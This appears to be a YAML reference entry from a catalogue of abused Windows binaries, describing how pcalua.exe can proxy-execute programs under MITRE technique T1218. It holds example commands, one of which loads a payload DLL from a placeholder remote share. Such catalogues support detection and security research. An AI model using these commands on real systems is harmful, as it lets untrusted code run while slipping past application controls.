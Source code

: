 ```yaml
---
name: Pcalua.exe
description: Program Compatibility Assistant
functions:
  execute:
    - description: Open the target .EXE using the Program Compatibility Assistant.
      code: pcalua.exe -a calc.exe
      mitreid: T1218
      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Proxy execution of binary
    - description: Open the target .DLL file with the Program Compatibilty Assistant.
      code: pcalua.exe -a \\server\payload.dll
      mitreid: T1218
      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Proxy execution of remote dll file
    - description: Open the target .CPL file with the Program Compatibility Assistant.
      code: pcalua.exe -a C:\Windows\system32\javacpl.cpl -c Java
      mitreid: T1218
      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Execution of CPL files
resources:
    - resource: https://twitter.com/KyleHanslovan/status/912659279806640128
fullpath:
    - path: C:\Windows\System32\pcalua.exe
detection:
  - IOC: 
acknowledgement:
  - Person: Kyle Hanslovan
    Handle: '@kylehanslovan'
  - Person: Fab
    Handle: '@0rbz_'
---
```

